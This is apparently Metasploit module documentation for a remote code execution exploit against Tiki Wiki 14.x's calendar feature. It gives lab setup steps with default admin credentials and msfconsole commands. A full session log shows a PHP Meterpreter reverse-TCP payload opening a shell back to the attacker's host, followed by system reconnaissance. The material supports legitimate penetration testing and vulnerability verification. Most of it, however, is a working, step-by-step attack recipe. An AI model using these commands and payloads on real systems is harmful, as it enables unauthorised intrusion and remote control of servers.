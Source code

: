 ## Vulnerable Application

  Official Source: [sourceforge](https://sourceforge.net/projects/tikiwiki/files/Tiki_14.x_Peony/14.1/)
  Exploit-db: [edb](https://www.exploit-db.com/apps/2fa84367ba4f14afab9f51cd3e93606d-tiki-14.2.7z)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

  1. Create a fresh Ubuntu 16.04 w/ a LAMP install
  2. `apt-get install php-xml`
  3. Normal php install at that point!
  4. After install, login as admin:admin
  5. Go to the Control Panels
  6. Click Features
  7. Enable Calendar under Main feature
  8. Click Apply

#### Permissions

  If you wish to enable the non-logged in user (anonymous) to view/exploit the calendar
  1. Log in as admin
  2. From the top dropdown select permissions
  3. Check Anonymous near the top
  4. Click Assign

## Verification Steps

  1. Install the software as documented above
  2. Start msfconsole
  3. Do: `use exploit/linux/http/tiki_calendar_exec`
  4. Do: `set rhost 10.10.10.10`
  5. (optional, if not set, set username to empty) Do: `set PASSWORD admin`
  6. Do: `set payload php/bind_perl`
  7. Do: `set verbose true`
  8. Do: `check`
```
  [+] 10.10.10.10:80 The target is vulnerable.
```
  8. Do: `exploit`
  9. You should get a shell

## Options

  **PASSWORD**

  Password is set at first login. Default for admin is 'admin'.

## Scenarios

Example running against unauthenticated calendar v14.1

```
  msf > use exploit/linux/http/tiki_calendar_exec
  msf exploit(tiki_calendar_exec) > set rhost 192.168.2.190
  rhost => 192.168.2.190
  msf exploit(tiki_calendar_exec) > set targeturi /t14_1/
  targeturi => /t14_1/
  msf exploit(tiki_calendar_exec) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  msf exploit(tiki_calendar_exec) > set lhost 192.168.2.229
  lhost => 192.168.2.229
  msf exploit(tiki_calendar_exec) > set verbose true
  verbose => true
  msf exploit(tiki_calendar_exec) > set username ''
  username => 
  msf exploit(tiki_calendar_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.2.229:4444 
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) to 192.168.2.190
  [*] Meterpreter session 1 opened (192.168.2.229:4444 -> 192.168.2.190:48172) at 2016-06-18 10:58:19 -0400
  
  meterpreter > sysinfo
  Computer    : tikiwiki
  OS          : Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64
  Meterpreter : php/php
  meterpreter > 
```
